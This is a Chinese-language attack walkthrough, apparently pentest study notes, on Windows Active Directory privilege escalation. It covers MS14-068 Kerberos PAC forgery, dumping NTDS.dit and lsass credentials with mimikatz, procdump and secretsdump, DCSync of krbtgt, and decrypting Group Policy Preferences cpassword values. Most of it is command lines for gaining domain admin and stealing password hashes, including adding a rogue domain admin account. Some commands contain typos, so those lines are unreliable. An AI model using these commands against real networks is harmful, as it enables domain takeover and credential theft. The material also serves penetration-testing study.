 ### MS14-068

> - 漏洞编号:CVE-2014-6324
> - 补丁:3011780
> - 漏洞描述:`Windows kerberos`允许特权提升的漏洞,允许提升`普通域用户`为`域管理员用户`
> - 漏洞影响:攻击者可以利用这些提升来控制域中的所有计算机
> - 影响范围:`Windows Vista`,`Windows server 2003/2008/2008 R2/2012/2012 R2`,`Windows 7/8/8.1`

- 漏洞`成因`:
  - 客户端:当用户进行登录身份验证服务,`服务会验证PAC中的签名`,并使用PAC中的数据为用户创建一个登录`令牌`,比如:如果PAC能够携带`有效的签名`表明`ETsafe`是`域管理`安全组成员,那么`创建的登录令牌`就将`ETsafe`当作`域管理`组中的成员,这样的kerberos认证存在问题,攻击者就可以`伪造身份`,从域用户提升到域管理权限
  - 服务端:KDC对PAC进行验证时,没有严格验证算法,原理上规定必须是`带有key的签名算法`才可以,但是却`允许任意签名算法`,只要`客户端指定`任意签名算法,`KDC服务器`就会`使用指定的算法`进行`签名验证`.因此伪造的任意内容都可以是合法的,直接加上内容的md5作为签名即可

****

#### 漏洞利用

- 检测是否存在`ms14-068`漏洞,查看是否打补丁`kB3011780`来判断是否存在漏洞

```cmd
systeminfo | findstr "3011780"
```

- 获取`域成员sid`

```cmd
whoami /all
```

- 使用`ms14-068.exe`提权,生成伪造的kerberos协议认证证书

```cmd
MS14-068.exe -u 用户名@域名 -p 域用户密码 -s 域用户sid -d DC的IP地址
```

- 利用`mimikatz.exe`将`证书导入`,导入前先`清空票据缓存`

```cmd
kerberos::ptc C:\Users\ls\TGT_ls@ichunqiu.com.ccache
```

- 提权完成以后,使用`PsExec.exe`获取shell,psexec.exe用`管理员`运行连接域控

```cmd
PsExec.exe \\dc.ichunqiu.com cmd.exe

#生成域管理账号
net user icq1 123.com /add /domain
net group "domain admins" icq1 /add /domain
```

****

### 获取域控的NTDS.dit文件

- 介绍:`NTDS.dit`是主要的`AD数据库`,存放在`c:\windows\NTDS\NTDS.dit`,包括有关`域用户`,`组`和`成员身份`的信息,它还包括域中的所有用户的`密码hash`
- 为了进一步获取保护密码的哈希值,使用存储在`system注册表`配置单元中的`密钥`对这些哈希值进行`加密`
- `获取方式`:
  - 在线获取:`大型`域环境中在线获取hash等待`时间较长`,工具占用资源较多,容易造成`域控服务器奔溃`,方法:`wce`,`gethashes`,`mimikatz`
  - 离线获取:将`NTDS.dit文件`和`system`复制(特殊方式)到`本地`进行遍历

```cmd
#cmd执行命令获得卷影副本卷名就是域控的C盘
vssadmin create shadow /for=C:
#导出ntds.dit文件到本地
copy \\?GLOBALROOT\Device\HarddiskVolumeShadowCopy\windows\NTDS\NTDS.dit C:\Users
#导出system文件到本地
copy \\?GLOBALROOT\Device\HarddiskVolumeShadowCopy\windows\System32\config\SYSTEM C:\Users
#利用impacket工具包的脚本文件secretsdump.py来进行离线破解
secretsdump.py -ntds [ntds文件地址] -system [system文件地址] LOCAL
```

- 其它获取域hash方法

```cmd
#导出工具
ntdsutil,diskshadow.exe
vssown,auxiliary/admin/smb/psexec_ntdsgrab #msf模块
#读取工具
NTDSDumpEx.exe

#获取特定域用户hash
lsadump::dcsync /dc:1-BF456643DE6F4.test.com /domain:test.com /user:krbtgt

#在域控上获取明文密码
-在线获取明文密码:wce,mimikatz,gethashes
wce -w
mimikatz.exe "privilege::debug"
mimikatz.exe "sekurlsa::logonpasswords"
-离线获取明文密码:procdump+mimikatz,sqldump+mimikatz,sharpdump+mimikatz
#导出lsass.dmp
prodump64.exe -accepteula -ma lsass.exe lsass.dmp
#读取lsass.dmp
mimikatz.exe "sekursa::minidump lsass.dmp" "sekurlsa::logonPasswords full" "exit"

#在普通域成员机上获取明文密码
-以域管理员身份登录到域普通机器
-以本地管理员身份运行wce
```

****

### 组策略首选项提权

- windows 2008 server 引入了一项称为组策略首选项的新功能,该功能使管理员可以部署`影响域中计算机`/用户的特定配置,通过在组策略管理控制台中配置的组策略首选项,管理员可以推出多种策略,例如,当用户登录其计算机时自动映射网络驱动器,`更新管理员账户`的用户名或对注册表进行更改

```cmd
常见的组策略首选项(GPP)
映射驱动器(Drives.xml)
创建本地用户
数据源(DataSources.xml)
打印机配置(Printters.xml)
创建,更新服务(Services.xml)
计划任务(SchedduledTasks.xml)
```

- 组策略首选项提权

  - 1.组策略首选项功能是windows 2008 server引入的,并且08之后的版本都已经打出该漏洞的补丁,实验域控机器为server 2008 R2服务器,在域控运行中输入gpmc.msc,进入组策略管理,右键组策略对象,新建test组策略
  - 2.右键新建组策略,编辑,找到本地用户和组,并右键新建本地用户
  - 3.新建本地用户,将域中每个计算机的本地密码设置成qwer123456
  - 4.获取组策略的凭据:管理员在域中新建一个组策略后,操作系统会自动在`SYSVO`共享目录中生成一个xml文件,该文件保存了该组策略更新后的密码,该密码使用AES-256加密算法,安全性较高,微软对外公布了改密码的私钥,导致保存在xml文件中的密码的安全性大大降低.任何域用户和域信任的用户均可对该共享目录进行访问,并对保存在xml文件中国的密码解密,从而控制域中所有使用该账号,密码的本地管理员计算机,在SYSVOL中搜索,可找到Groups.xml文件,关键是cpassword字段,该字段用AES-256算法加密
  - 5.破解方法:

  ```cmd
  #1.利用kali自带的命令gpp-decrypt进行破解刚才获取的密文
  ggpp-decrtpt 7ud2rxJhwxT5iaNrNtLxQcQ1hNN2cmCgxha3Faj4YA
  
  #2.使用msf获取cpassword,msf中post/windows/gather/credentials/gpp
  #3.使用Powershell获取cpassword,PowerSploit中的Get-GPPPassword.ps1脚本可以获取组策略中的密码,获取密码后可用本地Administrator账号登录
  Import-Module .\Get-GPPPassword.ps1;Get-GPPPassword
  ```

  
